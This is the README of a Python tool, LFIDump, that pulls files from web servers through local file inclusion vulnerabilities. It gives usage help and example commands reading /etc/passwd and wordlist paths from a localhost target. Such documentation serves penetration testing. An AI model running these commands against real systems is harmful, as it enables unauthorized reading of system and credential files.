

<p align="center">
    A simple python script to dump remote files through a local file read or local file inclusion web vulnerability.
    <br>
    
    <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"></a>
    <a href="https://www.youtube.com/c/Podalirius_?sub_confirmation=1" title="Subscribe"></a>
    <br>
</p>




## Features

 - [x] Dump a single file with `-f /path/to/remote/file.txt`
 - [x] Dump lots of files from a wordlist with `-F /path/to/local/wordlist.txt`
 - [x] Insecure mode (for broken SSL/TLS) with `-k/--insecure`
 - [x] Custom local dump dir with `-d/--dump-dir`

## Usage

```
$ ./LFIDump.py -h
usage: LFIDump.py [-h] [-v] [-s] -u URL [-f FILE | -F FILELIST] [-D DUMP_DIR] [-k]

Description message

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose         Verbose mode. (default: False)
  -s, --only-success    Only print successful read file attempts.
  -u URL, --url URL     URL to connect to. (example: http://localhost/?page=LFIPATH)
  -f FILE, --file FILE  Remote file to read.
  -F FILELIST, --filelist FILELIST
                        File containing a list of paths to files to read remotely.
  -D DUMP_DIR, --dump-dir DUMP_DIR
                        Directory where the dumped files will be stored.
  -k, --insecure        Allow insecure server connections when using SSL (default: False)
```

## Examples

 + Dump a single file
    ```
    ./LFIDump.py -u "http://localhost:8000/lfi.php?page=LFIPATH" -f /etc/passwd
    ```
   
 + Dump files from a wordlist
    ```
    ./LFIDump.py -u "http://localhost:8000/lfi.php?page=LFIPATH" -F ./wordlists/all.txt
    ```

## Contributing

Pull requests are welcome. Feel free to open an issue if you want to add other features.


